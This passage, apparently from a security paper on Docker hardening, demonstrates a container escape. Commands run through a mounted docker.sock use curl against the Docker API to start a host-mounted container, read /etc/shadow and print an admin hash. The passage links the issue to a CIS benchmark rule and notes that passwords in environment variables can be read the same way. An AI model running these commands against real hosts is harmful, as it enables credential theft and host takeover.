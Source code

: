 \medskip

Let's say we want to get the password hash of a user called \lstinline{admin} on the host. We can execute commands in a container with \lstinline{/var/run/docker.sock} mounted as a volume. We use the API to start another Docker container (on the host), that has access to the password hash (located in \lstinline{/etc/shadow}). We read the password file, by looking at the logs of the container that we just started.

\begin{lstlisting}[caption={Start Docker using the API to read host files.},captionpos=b]
(host)$ docker run -it --rm -v /var/run/docker.sock:/var/run/docker.sock ubuntu /bin/bash
(cont)# curl -XPOST -H "Content-Type: application/json" --unix-socket /var/run/docker.sock -d '{"Image":"ubuntu:latest","Cmd":["cat", "/host/etc/shadow"],"Mounts":[{"Type":"bind","Source":"/","Target":"/host"}]}' "http://localhost/containers/create?name=escape"
...
(cont)# curl -XPOST --unix-socket /var/run/docker.sock "http://localhost/containers/escape/start"
(cont)# curl --output - --unix-socket /var/run/docker.sock "http://localhost/containers/escape/logs?stdout=true"
...
admin:$6$VOSV5AVQ$jHWxAVAUgl...:18142:0:99999:7:::
...
(cont)# curl -XDELETE --unix-socket /var/run/docker.sock "http://localhost/containers/escape"
\end{lstlisting}

\medskip

This is covered by CIS Docker Benchmark guideline 5.31 (Ensure that the Docker socket is not mounted inside any containers).

\subsubsection{Sensitive Information}
When a container has access to \lstinline{/var/run/docker.sock} (i.e.\ when \lstinline{/var/run/docker.sock} is added as volume inside the container), it cannot only start new containers but it can also look at the configuration of existing containers. This configuration might contain sensitive information (e.g.\ passwords in environment variables).

\medskip

Let's start a Postgres\footnote{\url{https://www.postgresql.org/}} database inside a Docker. From the documentation of the Postgres Docker image,\footnote{\url{https://hub.docker.com/_/postgres}} we know that we can provide a password using the \lstinline{POSTGRES_PASSWORD} environment variable. If we have access to another container which has access to the Docker API, we can read that password from the environment variable.

